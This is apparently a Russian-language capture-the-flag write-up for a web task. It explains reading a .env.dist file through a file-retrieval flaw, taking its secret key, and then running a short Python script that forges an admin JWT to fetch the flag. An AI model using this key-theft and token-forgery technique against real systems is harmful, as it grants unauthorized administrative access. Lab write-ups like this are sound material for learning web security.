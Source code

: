 #hard #web #JWT #FS

#### Задача

| Вводные   | Материалы                                                                                                                                                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Исходники | Исходники бекенда сайта: [brethren.tar.gz](./assets/brethren.tar.gz)                                                                                                                                                            |
| Сайт      | https://t-brethren-y25eg5ir.spbctf.org                                                                                                                                                                                          |
| Условие   | Студенческое капибратство «Тета Каппа» устроило испытание для первокурсников: они должны похитить билеты к экзаменам с сервера института.<br><br>Подмените их на другие — вымышленные. Не только же студентам можно дурачиться! |
| Статус    | 🟢 Решено после CTF                                                                                                                                                                                                             |

#### Решение
- Через уязвимость в получение файлов достаем .env.dist
- Из .env.dist достаем SECRET_KEY и на его основе генерим JWT с админсским доступом
- Под админом дергаем апиху на получение флага

#### Код генерации JWT

```python
from jose import jwt

SECRET_KEY = "713c50ce0a4902af7571debb36dd14abd95a45c9104b299b1f91afd52f356e47"
ALGORITHM = "HS256"

payload = {
"exp": "1745341191",
"iat": "1745254791",
"user_id": "faf49c98-0cab-4af4-b917-b0c96a710938",
"username": "admin_kek",
"is_admin": True,
}

token = jwt.encode(payload, SECRET_KEY, algorithm=ALGORITHM)
print(token)
```

#### Скрины

![](./assets/image-9.webp)

![](./assets/image-10.webp)


![](./assets/image-2.webp)

![](./assets/image-3.webp)

![](./assets/image-4.webp)

![](./assets/image-5.webp)

![](./assets/image-6.webp)

![](./assets/image-7.webp)

![](./assets/image-8.webp)


